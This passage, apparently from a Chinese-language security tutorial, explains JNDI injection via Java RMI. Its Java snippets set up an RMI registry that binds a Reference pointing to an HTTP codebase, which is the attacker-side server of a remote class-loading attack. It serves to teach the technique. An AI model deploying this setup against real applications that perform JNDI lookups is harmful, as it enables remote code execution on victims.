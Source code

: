 ```
String toString() 
	生成此引用的字符串表示形式。  
```

code

```java
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class jndi {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
        String u = "http://localhost:8080/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", u);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("work", referenceWrapper);
    }
}
```

`Reference`本身并没有实现`Remote`接口也没有继承 `UnicastRemoteObject`类，前面讲RMI的时候提及，需要将类注册到`Registry`需要实现`Remote`和继承`UnicastRemoteObject`类。这里并没有看到相关的代码，所以还需要调用`ReferenceWrapper`进行封装

### JNDI 注入配合 RMI 实现攻击

RMIServer

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server2 {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String u = "http://localhost:8079/";
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", u);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj", referenceWrapper);
        System.out.println("rmi running...");
    }
}
```
